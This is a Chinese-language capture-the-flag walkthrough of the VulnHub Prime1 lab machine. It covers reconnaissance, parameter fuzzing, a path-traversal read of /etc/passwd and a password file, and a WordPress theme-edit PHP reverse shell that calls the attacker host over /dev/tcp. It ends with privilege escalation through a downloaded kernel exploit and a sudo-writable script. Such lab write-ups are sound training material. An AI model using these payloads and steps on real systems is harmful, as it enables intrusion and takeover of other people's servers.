


prime1 - CTF
===

>   靶机镜像下载:   [vulhub](https://download.vulnhub.com/prime/Prime_Series_Level-1.rar)

||说明|ip|
|----|----|----|
|Kali|攻击机|192.168.170.135|
|Prime1|靶机|192.168.170.139|

### Nmap 扫描

首先还是非常常规的 Nmap 扫描, 收集信息。

#### 主机发现

```bash
sudo nmap -sn 192.168.170.0/24
```

---


#### 端口扫描





在漏洞扫描中可以看到 "wordpress" 字样, 说明该网站是使用 wordpress 建站。

#### wordpress 扫描

 `wpscan` 是专门扫描 wordpress 站点的工具。

>   注意 wpscan 必须指定到 `../wordpress/` 目录下。

可以扫出 wordpress 的版本为 5.2.2。

#### 信息收集

访问目标站点:


根据站点信息, 管理员账户应该就是 `victor`, 首页的 `Log in` 应该也对应刚刚扫出的登录界面(*http://../wordpress/wp-login.php*)。


访问 `/javascript` , 可以看到 apache 服务的版本是2.4.18

### 目录爆破

既然已知网站使用了 wordpress, 那就可以指定后缀名 `.php`, `.html`:

```bash
sudo gobuster dir -u http://192.168.170.139 --wordlist=/usr/share/dirbuster/wordlist/directory-list-2.3-medium.txt -x php, html
```

---


用 dirb 再扫一次, 再加上后缀 `.txt` :

```bash
sudo dirb http://192.168.170.139 -X .zip,.txt,.php
```


扫出了 3 个文件, 其中前两个 php 文件访问之后都是一个大图, 现在访问一下扫出来的 `/dev` 目录: 果然是车轱辘话。


再尝试访问一下 `secret.txt` 这个文件, 提示下一步要进行模糊测试。


### 模糊测试

打开上一步最后提示的 github 项目地址:

```markdown
1. WFUZZ

====================================================================================

 #    #  ######  #    #  ######  ######
 #    #  #       #    #      #       #
 #    #  #####   #    #     #       #
 # ## #  #       #    #    #       #
 ##  ##  #       #    #   #       #
 #    #  #        ####   ######  ######


====================================================================================

--------------------------------------------------------------------------------------
(i) USE WFUZZ TO ENUMERATE CORRECT PARAMETER FOR A PAGE.
---------------------------------------------------------------------------------------

COMMNAD = wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt  --hc 404 http://website.com/secret.php?FUZZ=something

And the result is given below

000216:  C=200      70 L	      500 W	    2006 Ch	  "configs"
000200:  C=200      70 L	      500 W	    2006 Ch	  "cm"
000201:  C=200      70 L	      500 W	    2006 Ch	  "cmd"
000195:  C=200      70 L	      500 W	    2006 Ch	  "classified"
000197:  C=200      70 L	      500 W	    2006 Ch	  "client"
000204:  C=200      70 L	      500 W	    2006 Ch	  "coke"
Finishing pending requests...


----------------------------------------------------------------------------------------------------------------------
(ii) BUT ABOVE COMMND FAILED IF PAGE ALWAYS RETURN 200(HTTP REPONSE). NOW OUR MODIFIED COMMAND IS  =======>
----------------------------------------------------------------------------------------------------------------------

COMMAND = wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt  --hc 404 --hw 500 http://website-ip/index.php?FUZZ=something

And it will return result which is given below.

Total requests: 950

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000357:  C=200      70 L	      500 W	    2006 Ch	  "file"

Total time: 3.753362
Processed Requests: 950
Filtered Requests: 949
Requests/sec.: 253.1063

Here we can see C=200(Our HTTP Respone from server). 
7 L ==> It means 7 lines return by server. 
500 W  ==> It means 19 words total count by wfuzz.
2006 Ch  ==> It means 206 total chars count by wfuzz which is return by server.

After using filter we can remove wrong parameter from our output and right output with right parameter we get.

--------------------------------------------------------------------------------------------------------
(*)WORKING WITH FILTERS:                                                                               |   

(i) If we want to filter words then we used switch --hw (words_lenth. In above example --hw 12)        |
(ii) To filter lenth then we used --hl(In above above example this would be --hl 7)
(iii) For chars we used --hh (In above example this would br --hh 206)                                 |
(iv) For response code we use --hc. And always we attach --hc 404. Because this is common for all.
                                                                                                       |                                                
--------------------------------------------------------------------------------------------------------
      

----------------------------------------------------------------

(iii) USE WFUZZ TO FIND OUT SUBDOMAINS.

----------------------------------------------------------------

COMMAND ==>  wfuzz -c -w /usr/share/seclists//usr/share/seclists/Discovery/DNS --hc 404 --hw 617 -u website.com -H "HOST: FUZZ.website.com"


USE filter to reach your actual subdomains like below command.

COMMAND  ==> wfuzz -c -w /usr/share/seclists//usr/share/seclists/Discovery/DNS --hc 404 --hw 7873 -u hnpsec.com -H "HOST: FUZZ.hnpsec.com"
```

---

那么按照提示使用 wfuzz 工具, 先测试 `image.php` 这个文件:

```bash
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.170.139/image.php?FUZZ=something
```

>   扫描过程中, 应该根据首次扫描的结果, 用--hc, --hl, --hw, --hh 来根据结果的属性屏蔽一些多余的项方便查看。

`image.php` 中没有有用的信息, 再试试 `index.php`:

```bash
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hh 136 http://192.168.170.139/index.php?FUZZ=something
```


扫出了一个 payload 为 `file` , 马上着手访问一下:


刚刚在目录爆破的最后一步中, 有提示 *"//see the location.txt and you will get your next move"*, 可能是参数 `file` = `location.txt`:

```bash
sudo curl http://192.168.170.139/index.php?file=location.txt
```

---


根据回显, 转换到 `image.php` 替换参数为 `secrettier360`:

```bash
sudo curl http://192.168.170.139/image.php?secrettier360
```

线索到这里暂时就断了, 这个页面可能还要结合其他漏洞利用才能突破。

---


### 文件包含漏洞利用

文件包含漏洞是 web 常见的漏洞, 允许攻击者通过未经验证的用户输入**访问或执行服务器上的任意文件**。

>   在大多数情况下，使用足够多的 `../` 可以成功访问 `/etc/passwd`，因为服务器操作系统在处理路径时会**自动忽略多余的层级**。

在上一节最后一步的页面中尝试文件包含漏洞:

```bash
sudo curl http://192.168.170.139/image.php?secrettier360=../../../../../../../../etc/passwd
```

---


可以看到除了 www-data 和 root 账户, 还存在 victor 和 saket 两个账户, 其中 victor 和 wordpress 管理员名称一致, 可能使用了统一密码 *(虽然后文证明并不是, 但是收集信息时还是有必要记录下来)*

此外, 还显示 saket 这个账户的密码在 `/home/saket` 下, 重新构建 payload 尝试访问:

```bash
sudo curl http://192.168.170.139/image.php?secrettier360=../../../../../../../../home/saket/password.txt
```

得到 `follow_the_ippsec` , 这很可能是某个账户的密码。


### Wordpress 漏洞利用

#### 登录 Wordpress 后台

目前已知有 Linux 账户 victor 和 saket, Wordpress 账户 victor, 以及密码 `follow_the_ippsec`, 排列组合一下, 发现这是 Wordpress 管理员账户 victor 的密码。*(很可惜这不是 ssh 的密码)*


#### 通过 Wordpress 自定义插件和主题获取反弹 shell

因为 Wordpress 支持上传自定义的插件和主题, 因此可以把 payload 以**文件形式上传**, 获取 shell 。**这是 Wordpress 站点突破管理员账户后非常常用的利用方式。**

首先尝试插件的方式, 随便包一个压缩包上传, 服务器回显没有写权限, 应该行不通, 转向上传主题。


往后挨个看, 发现 `secret.php` 这个文件是可写的。


注入一个经典的反弹 shell 脚本:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.170.135/443 0>&1'"); ?>
```

在 kali 上输入 `nc -lvnp 443` 来打开监听, 然后上传主题文件, 再执行这个 `secret.php` 就可以得到一个**反弹 shell**。

简单收集一下 `www-data`这个账户的信息: 


看到可以不输入密码的情况下以 sudo 权限访问 `saket/enc` 这个文件。

### 解法1: 内核漏洞提权

#### 用户提权

继续收集信息, 查看一下系统版本:


这是一个比较旧的版本, 很可能有突破点, 用 `searchsploit` 搜索对应版本漏洞:


后两个都是提权漏洞, 这里就选第二个了,拷贝脚本并编译:

```bash
searchsploit -m 45010.c
sudo gcc 45010.c -o 45010
```

然后在 kali 的80端口上开启文件传输服务, 并使用靶机的 bash 来接收

>   `Kali`:
> 
>   ```bash
>   sudo php -S 0:80
>   ```

>   `靶机`:
>       这里转到了 `/tmp` 目录下, 因为这个目录通常不需要 root 权限来读写。
>   ```bash
>   cd /tmp
>   wget http://192.168.170.135/45010.c
>   ```


此时靶机上可能还没有足够的权限来执行, 可以用 45010.c 再编译一次试试:

```bash
gcc 45010.c -o 45010-2
./45010-2
```

---


已经可以执行了, 提权成功, 使用 python 获取完整的交互式 shell:

```bash
whoami
python -c "import pty;pty.spawn('/bin/bash')"
```
---


到这里就基本上已经拿下了, 之后简单操作一下, 这个 `root.txt` 就是 flag 文件。

### 解法2: OpenSSL

内核提权虽然暴力, 但是缺点也比较明显: 容易导致运行中的服务中断, 这里用另一种方式提权。

#### 搜索密码

前文提到, www-data 看到可以不输入密码的情况下以 sudo 权限访问 `saket/enc` 这个文件。enc 很可能是编码 *(encode)* 或者加密 *(encrypt)* 的缩写, 这个文件可能很重要。

转到这个目录查看一下各个文件, 目录下还有个 `password.txt`, 内容为 `follow_the_ippsec`。 `enc` 是一个可执行文件。


尝试显示 `enc`, 提示权限不足, 直接执行虽然不需要 root 密码, 但是执行内容一上来就要求输入另一个密码, 很可惜 `follow_the_ippsec` 不是这个密码。想到 `enc` 很可能是 OpenSSL 加密的产物, 尝试搜索密码, 密码备份比较可能含有 backup, pass, passwd 这类字符串, 顺便把报错屏蔽掉 (因为当前shell不完整):

```bash
find / -name '*backup*' 2>/dev/null | sort
```

发现 3 条比较可疑的记录:


尝试挨个访问, 发现 `back_pass` 可以访问:


---

```bash
sudo /home/saket/enc
```

第一次执行时忘了加 `sudo`, 根据回显发现操作了 `enc` 和 `key` 这两个文件。在两个目录都观察一下, 发现应该是把这两个文件拷贝到了 `/home/saket下`




#### 破解 `enc` 和 `key`

查看一下这两个文件:


根据提示, 对 `ippsec` 做 md5 哈希, 再破解 `key.txt` 这个文件:

>   `-n` 表示不换行输出; 带 `-n` 和不带 `-n` 生成的结果是完全不一样的, 需要注意, 正常情况下一般都需要带上 `-n`。

>   对于 openssl 来说, 是否要加 `-n` 需要**酌情而定**。如果其源数据中本来就含有换行符, 就不能加, 否则会导致结果错误。 

>   `awk -F` 为指定分隔符。

>   注意前后都要用**源数据(Raw)**, 即转换为 16 进制。 `od` 是 linux 自带的进制转换工具, 必要参数 `-t` 和 `-A` 是两个必要的参数，分别控制**输出内容的格式**和**地址偏移量**的显示方式。参数为 `[doxn]` , 分别对应 10 (decimal), 8 (octal), 16 (hex), 无 (none)。 如果显示结果异常, 很可能是因为没有去掉换行符, 用 `tr -d '\n'` 批量去除所有换行符即可, 转换之后的结果同理。

>   如果看不出来这里的源数据为 **`aes-256-ecb`** 加密, 则需要编写一个脚本批量处理挨个尝试, 具体脚本比较冗长, 这里不赘述, 参考: [openssl 批量处理](https://www.bilibili.com/video/BV1wD4y1C7Da)

```bash
sudo echo -n 'ippsec' | md5sum | awk -F ' ' '{print $1}' | tr -d '\n' | od -A n -t x1 | tr -d '\n'| tr -d ' '
```

---


加入破解后的 enc 内容:

```bash
sudo echo -n 'nzE+iKr82Kh8BOQg0k/LViTZJup+9DReAsXd/PCtFZP5FHM7WtJ9Nz1NmqMi9G0i7rGIvhK2jRcGnFyWDT9MLoJvY1gZKI2xsUuS3nJ/n3T1Pe//4kKId+B3wfDW/TgqX6Hg/kUj8JO08wGe9JxtOEJ6XJA3cO/cSna9v3YVf/ssHTbXkb+bFgY7WLdHJyvF6lD/wfpY2ZnA1787ajtm+/aWWVMxDOwKuqIT1ZZ0Nw4=
' | openssl enc -d -a -aes-256-ecb -K 3336366137346362336339353964653137643631646233303539316333396431 
```

破解成功, 内容如下:


至此已经获取了 saket 账户的密码, 直接 ssh 连接 (`sudo ssh saket@192.168.170.139`):


同样用 python 提升一下交互性:

```bash
dpkg -l | grep python
python -c "import pty;pty.spawn('/bin/bash')"
```

用 `sudo -l` 查看一下, 发现可以用 root 权限无密码执行一个文件, 执行如下:


提示要在 victor 面前打败他, 并且报错没有找到 `/tmp/challenge` 文件, 那应该是一个简单的猜谜环节, 估计是要新建这个文件。

>   `>` 为覆写, `>>` 为追加。

```bash
cd /tmp
echo '#!/bin/bash' > challenge
echo '/bin/bash' >> challenge
chmod +x challenge
sudo /home/victor/undefeated_victor
```

---


至此已经拿下了 flag 。

### 关键操作与注意事项
  
1. WFuzz 参数爆破:

```bash
wfuzz -c -w common.txt --hh 136 "http://192.168.170.139/index.php?FUZZ=../../etc/passwd"  
```

+ --hh 136：过滤固定响应长度，排除干扰项
+ 注意：若响应始终为 200，需结合内容长度/关键词过滤

2. 文件包含漏洞利用

```bash
curl "http://192.168.170.139/image.php?secrettier360=../../../../etc/passwd"  
```

3. 权限提升:通过**凭证复用**或**内核漏洞**双路径提权，优先选择低噪声方式。

>   3.1 WordPress 后台突破
>   -   在 `secret.php` 插入 PHP 反弹 Shell：
>   ```php
>   <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1'"); ?>  
>   ```
>   -   权限陷阱：上传主题/插件可能受目录写权限限制，优先查找可编辑文件。
>
>   3.2 OpenSSL 密钥破解（重点注意 `-n` 参数）
>   
>   -   生成密钥时 必须使用 `-n` 避免**换行符污染**：
>
>   ```bash
>   echo -n 'ippsec' | md5sum | awk '{print $1}'  
>   ```
>   -   数据处理链：
>
>   ```bash
>   echo -n '密文' | openssl enc -d -a -aes-256-ecb -K $(echo -n 'ippsec' | md5sum | awk '{print $1}')  
>   ```
>
>   -   验证:
>       -   检查原始数据是否含换行符（od -c 查看）
>       -   确认加密算法与模式（此处为 aes-256-ecb）       